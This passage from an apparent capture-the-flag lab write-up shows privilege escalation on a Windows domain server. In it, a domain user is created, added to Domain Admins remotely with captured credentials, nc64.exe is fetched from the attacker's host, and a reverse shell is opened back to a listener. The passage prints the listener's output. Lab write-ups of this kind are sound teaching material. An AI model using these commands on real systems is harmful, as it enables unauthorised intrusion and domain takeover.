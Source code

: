     SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled



These permissions do get reset periodically, so I'll try adding another
user:



    PS C:\Utils> Invoke-Command -ScriptBlock { net user 0xdf abcdABCD1234!@#$ /add /domain /Y } -ComputerName ATSSERVER -Credential $cred
    The command completed successfully.



(This took me many tries to get the password complexity enough and add
`/Y` to override a prompt.)

And adding it to `Domain Admins`:



    PS C:\Utils> Invoke-Command -ScriptBlock { net group "Domain Admins" 0xdf /add /domain } -ComputerName ATSSERVER -Credential $cred
    Invoke-Command -ScriptBlock { net group "Domain Admins" 0xdf /add /domain } -ComputerName ATSSERVER -Credential $cred
    The command completed successfully.



But these users get flushed periodically as well.

Back to awallace, I'll upload `nc64.exe` and call it:



    PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -Credential $cred -ScriptBlock { wget 10.10.14.6/nc64.exe -outfile \programdata\nc64.exe }
    PS C:\utils> Invoke-Command -ComputerName ATSSERVER -Credential $cred -ScriptBlock { \programdata\nc64.exe -e cmd 10.10.14.6 444}



At a listening `nc`:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 444
    Listening on 0.0.0.0 444
    Connection received on 10.10.11.145 56958
    Microsoft Windows [Version 10.0.17763.2452]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\awallace\Documents>whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                            Description                                                        State  
    ========================================= ================================================================== =======
    SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
    SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
    SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
    SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
    SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
    SeSystemProfilePrivilege                  Profile system performance                                         Enabled